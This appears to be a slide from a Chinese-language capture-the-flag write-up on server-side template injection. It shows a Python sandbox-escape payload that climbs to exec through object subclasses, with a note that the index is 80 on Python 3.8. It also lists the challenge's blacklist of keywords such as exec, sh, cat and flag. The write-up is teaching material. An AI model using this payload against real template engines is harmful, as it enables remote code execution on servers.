

#
{{'1'.__class__.mro()[-1].__subclasses__()[??].__init__.
__globals__['__builtins__']['exec']('…')}}
?? 部分随Python版本而变化（题目说了服务器是Python3.8）
装一个Python3.8，试一下发现??=80

限制：
长度≤128字节（上面那个什么命令都没写就已经100了）
黑名单：'+', ',', ':', '\'\'', '""', '%', 'lower', 'upper', 'builtin', 'fork', 'exec', 'walk', 'open', 'spawn', 'reload', 'exit', 'bin', 'sh', 'cat', 'config', 'secret', 'key', 'flag' 以及所有 POSIX 函数名
源码是所有人可见的，容易让别人上车
58